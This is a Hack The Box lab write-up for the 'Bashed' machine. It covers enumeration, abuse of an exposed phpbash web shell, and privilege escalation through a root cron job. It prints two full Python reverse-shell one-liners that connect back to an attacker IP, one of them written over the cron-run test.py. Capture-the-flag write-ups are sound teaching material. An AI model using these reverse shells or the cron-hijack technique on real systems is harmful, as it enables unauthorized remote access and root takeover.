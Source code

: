 # HACK THE BOX - BASHED WRITEUP

Lets enumerate the box with nmap

![I](pics/1.png)

We can clearly conclue that its running a web service on port 80

![I](pics/2.png)

It says that it is a PHP Bash site

And further we can see that

It allow PHP to execute commands on bash and redirects inputs and outputs

![I](pics/3.png)

Now lets run Gobuster to find to find directories

![I](pics/4.png)

We can find an interesting directory called /dev

Inside /dev we get 2 pages..which is the phpbash program

![I](pics/5.png)

Further clicking on the second page,we get

![I](pics/6.png)

Now,lets hunt for user.txt

![I](pics/7.png)

Now lets escalate our privileges

![I](pics/8.png)

We can say that, by running as "scriptmanager" user we can run any program

![I](pics/9.png)

We could not get the TTY shell for "scriptmanager",because this page is programmed to run shell from "www-data" user

So lets check whether there is python or not,and pass a python reverse shell one liner

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9876));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![I](pics/10.png)

By passing this in PHPBash input,we open our listener with netcat

Now lets escalate our privileges

![I](pics/11.png)

We have escalated from "www-data" to "scriptmanager"

There is an interesting directory in "/" called "scripts" which is unusual

We could not visit this directory as "www-data" because of permissions

There are two files in it

![I](pics/12.png)

And the permissions for it are

![I](pics/13.png)

Here we can see,these two files are modified recently

So this should be executed as CRON job

CRON job ---> Automated jobs/tasks in linux

And we can see that,

test.py ---> scriptmanager

test.txt ---> root

It generates a test.txt file as output

And waiting few minutes i confirmed it as a CRON job by seeing its timestamps

Now lets overwrite the test.py with reverse shell

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.6\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" >test.py
```

Which will be executed as CRON job by #ROOT

![I](pics/14.png)

Starting a listener in Netcat and running the python script

![I](pics/15.png)

We got #ROOT 









